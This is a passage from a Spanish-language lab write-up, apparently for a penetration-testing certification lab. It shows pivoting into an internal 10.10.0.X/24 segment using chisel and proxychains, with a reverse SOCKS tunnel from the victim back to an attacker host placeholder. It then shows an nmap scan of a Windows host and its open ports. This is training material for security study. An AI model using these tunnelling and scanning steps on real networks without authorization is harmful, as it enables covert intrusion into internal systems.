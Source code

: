 ### Pivoting

Dado que nuestra máquina atacante no tiene acceso al segmento de red `10.10.0.X/24`, se implementará un reenvío dinámico de puertos utilizando `chisel` y `proxychains`
Utilizando:

```bash
##Servidor Chisel - Maquina atacante
./chisel server --reverse -p 1234

##Client Chisel - Maquina victima
./chisel client <IP-atacante>:1234 R:socks
```

Configurar `/etc/proxychains4.conf` agregando:

```bash
##Tunel 1
socks5  127.0.0.1 1080
```

Obteniendo:

![Untitled](/assets/img/labECCPT/Pasted image 20240402141427.png)

Una vez establecido el túnel desde la máquina atacante, se debería tener acceso al segmento `10.10.0.X/24`.

---

## 10.10.0.144 - Windows

### Reconocimiento

Top ports 1000

```bash
❯ proxychains nmap --open --top-ports 1000 -sT -Pn 10.10.0.144 -oG allPorts 2>/dev/null
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-21 14:08 CDT
Nmap scan report for 10.10.0.144
Host is up (0.023s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5357/tcp  open  wsdapi
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 16.16 seconds
```

